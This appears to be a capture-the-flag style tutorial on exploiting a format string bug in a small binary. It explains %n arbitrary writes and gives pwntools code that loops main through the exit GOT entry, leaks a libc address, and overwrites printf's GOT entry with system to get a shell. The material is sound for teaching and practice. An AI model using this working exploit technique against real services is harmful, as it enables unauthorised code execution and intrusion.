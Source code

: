 We will start by inspecting the assembly of our binary. 

Condensed, commented output of `objdump -d -M intel printf`

```
00000000004011b6 <main>:
  4011b6:       f3 0f 1e fa             endbr64 
  4011ba:       55                      push   rbp
  4011bb:       48 89 e5                mov    rbp,rsp
# Our stackframe is size 0x100
  4011be:       48 81 ec 00 01 00 00    sub    rsp,0x100
# Prints prompt
  4011c5:       48 8d 3d 38 0e 00 00    lea    rdi,[rip+0xe38]        # 402004 <_IO_stdin_used+0x4>
  4011cc:       e8 bf fe ff ff          call   401090 <puts@plt>
# Read our name into a buffer at [rbp-0x100]
  4011d1:       48 8b 15 78 2e 00 00    mov    rdx,QWORD PTR [rip+0x2e78]        # 404050 <stdin@@GLIBC_2.2.5>
  4011d8:       48 8d 85 00 ff ff ff    lea    rax,[rbp-0x100]
  4011df:       be 00 01 00 00          mov    esi,0x100
  4011e4:       48 89 c7                mov    rdi,rax
  4011e7:       e8 c4 fe ff ff          call   4010b0 <fgets@plt>
  4011ec:       48 8d 3d 23 0e 00 00    lea    rdi,[rip+0xe23]        # 402016 <_IO_stdin_used+0x16>
  4011f3:       e8 98 fe ff ff          call   401090 <puts@plt>
# Call printf(buffer)
  4011f8:       48 8d 85 00 ff ff ff    lea    rax,[rbp-0x100]
  4011ff:       48 89 c7                mov    rdi,rax
  401202:       b8 00 00 00 00          mov    eax,0x0
  401207:       e8 94 fe ff ff          call   4010a0 <printf@plt>
  40120c:       bf 0a 00 00 00          mov    edi,0xa
# Print a newline
  401211:       e8 6a fe ff ff          call   401080 <putchar@plt>
  401216:       bf 00 00 00 00          mov    edi,0x0
# Calls exit
  40121b:       e8 a0 fe ff ff          call   4010c0 <exit@plt>
```

From the assembly we can see that the general flow of the problem is to ask for
input then just call `printf(buffer)`. This is a seemingly innocuous bug, but it
can actually lead to instruction pointer control. There is a specific printf
format `%n` that _writes_ to memory.

The expected usage of `%n` is to recover the length of the string printed by
printf. It writes the number of characters printed so far to a pointer. 

Consider the following code.

```c
int x;
printf("abc%n\n", &x);
printf("%d\n", x);

// Prints:
// abc
// 3
```

If we can somehow control the ith argument to printf we can write to an
arbitrary location in memory. Inspecting the stackframe layout may give us this
control. The stack frame for main will look like:

```
Note: Zeroes are unreferenced memory, their value may be non-zero at runtime.

rsp (rbp-0x100):  00000000    00000000
rbp-0xf8          00000000    00000000
rbp-0xf0          00000000    00000000
rbp-0xe8          00000000    00000000
rbp-0xe0          00000000    00000000
rbp-0xd8          00000000    00000000
rbp-0xd0          00000000    00000000
rbp-0xc8          00000000    00000000
rbp-0xc0          00000000    00000000
rbp-0xb8          00000000    00000000
rbp-0xb0          00000000    00000000
rbp-0xa8          00000000    00000000
rbp-0xa0          00000000    00000000
rbp-0x98          00000000    00000000
rbp-0x90          00000000    00000000
rbp-0x88          00000000    00000000
rbp-0x80          00000000    00000000
rbp-0x78          00000000    00000000
rbp-0x70          00000000    00000000
rbp-0x68          00000000    00000000
rbp-0x60          00000000    00000000
rbp-0x58          00000000    00000000
rbp-0x50          00000000    00000000
rbp-0x48          00000000    00000000
rbp-0x40          00000000    00000000
rbp-0x38          00000000    00000000
rbp-0x30          00000000    00000000
rbp-0x28          00000000    00000000
rbp-0x20          00000000    00000000
rbp-0x18          00000000    00000000
rbp-0x10          00000000    00000000
rbp-0x8           00000000    00000000
rbp:             [saved rbp] [saved rip]
```

Recall that the 7th argument to printf will be `rsp`. Notice that the buffer we
control is in the same region that our arguments will come from. If we were to
write `aaaaaaaa%6$n` into our buffer, we'd overwrite the memory address
`0x6161616161616161` with `0`. The example stackframe would look like:

```
Note: Zeroes are unreferenced memory, their value may be non-zero at runtime.

rsp (rbp-0x100):  61616161    61616161
rbp-0xf8          6e243625    00000010
rbp-0xf0          00000000    00000000
rbp-0xe8          00000000    00000000
rbp-0xe0          00000000    00000000
rbp-0xd8          00000000    00000000
rbp-0xd0          00000000    00000000
rbp-0xc8          00000000    00000000
rbp-0xc0          00000000    00000000
rbp-0xb8          00000000    00000000
rbp-0xb0          00000000    00000000
rbp-0xa8          00000000    00000000
rbp-0xa0          00000000    00000000
rbp-0x98          00000000    00000000
rbp-0x90          00000000    00000000
rbp-0x88          00000000    00000000
rbp-0x80          00000000    00000000
rbp-0x78          00000000    00000000
rbp-0x70          00000000    00000000
rbp-0x68          00000000    00000000
rbp-0x60          00000000    00000000
rbp-0x58          00000000    00000000
rbp-0x50          00000000    00000000
rbp-0x48          00000000    00000000
rbp-0x40          00000000    00000000
rbp-0x38          00000000    00000000
rbp-0x30          00000000    00000000
rbp-0x28          00000000    00000000
rbp-0x20          00000000    00000000
rbp-0x18          00000000    00000000
rbp-0x10          00000000    00000000
rbp-0x8           00000000    00000000
rbp:             [saved rbp] [saved rip]
```

We can extend this further to write any value into that memory address by adding
an additional format with a length specifier. The format `%100x` will print an
int padded to 100 characters. The format `aaaaaaaa%100d%6$n` will write the
value `100` into memory address `0x61616161616161`.

We almost have an arbitrary write, the only issue is that memory addresses that
contain `00` bytes will terminate our string. The string
`aaaa\x00\x00\x00\x00%100d%6$n` will only print `aaaa` and will not overwrite
the memory at address `0x0000000061616161`. The fix for this is to put our
memory address at the end of the printf format. Unfortunately this usually means
a lot of tedious calculations. Luckily there are libraries developed exactly for
this purpose. I like to use this one [Printf
Exploit](https://github.com/Inndy/formatstring-exploit).

Now that we can overwrite an arbitary memory address, we can start our exploit.

The global offset table is a very nice target for our exploit. It'd be really
nice if we could leak a libc address, overwrite a GOT entry to `system@libc` and
jump to system. This process requires some creative thinking.

A common technique in binary exploitation is to leak an address, then call
`main` again. To do this we can overwrite the GOT entry for `exit` to the
address of `main`. This will cause main to infinite loop, then we can leak a
pointer. The function `main` is called by a libc function called
`__libc_start_main`. We can print main's return address and we'll have a libc
leak.

Once we have a libc leak, we can compute the address for `system@libc` and
overwrite the GOT entry for `printf`. Then if we cause the program to call
`printf("/bin/sh")`, we'll actually call `system("/bin/sh")` and get a shell.

To actually write this exploit we first load our binary and libc with some standard pwntools boilerplate.

```python
from pwn import *
from fmtstr import FormatString

r = process('build/printf')
e = ELF('build/printf')
libc = ELF('/usr/lib/libc.so.6')

# Create a new tmux pane with gdb when using gdb.attach()
context.clear(arch='amd64')
context.terminal = ["tmux", "splitw", "-h"]
```

We use the format string library to cause main to loop

```python
# Cause main to loop
# Offset is 6 since the first 5 args are registers
fmt = FormatString(offset=6, written=0, bits=64)
fmt[e.got['exit']] = e.symbols['main']
payload, sig = fmt.build()

def dump(x):
    try:
        from hexdump import hexdump
        hexdump(x)
    except ImportError:
        import binascii, textwrap
        print('\n'.join(textwrap.wrap(binascii.hexlify(x), 32)))

dump(payload)

r.sendline(payload)
```

Then we leak the address that calls main from `__libc_start_main`. We have to
account for the fact that main is recursively calling itself so there's an extra
stackframe to jump over. Once we leak this value, we can use pwntools to find
which address in libc calls main using `libc_start_main_return` and compute a
difference to find the libc base offset. 

```python
# registers - 5 args
# buffer - 256/8 = 32 args
# rbp - 1 arg
# rip - 1 arg
# buffer - 256/8 = 32 args
# rbp - 1 arg
# 5 + 32 + 1 + 1 + 32 + 1 = 72
# We need to skip the first 72 args to find main's ret address
leak_str = b"%73$16p"

r.sendline(leak_str)

r.recvuntil("0x")
x = r.recvline()
leak = int(x.decode('ascii'),16)

libc_offset = leak - libc.libc_start_main_return
```

Now we overwrite the GOT entry for `printf` to be `system`. After this code
finishes we should just be able to type `/bin/sh` into the next iteration of
main and we will get a shell.

```python
fmt = FormatString(offset=6, written=0, bits=64)
fmt[e.got['printf']] = libc_offset + libc.symbols['system']
payload, sig = fmt.build()

def dump(x):
    try:
        from hexdump import hexdump
        hexdump(x)
    except ImportError:
        import binascii, textwrap
        print('\n'.join(textwrap.wrap(binascii.hexlify(x), 32)))

dump(payload)

r.sendline(payload)
```
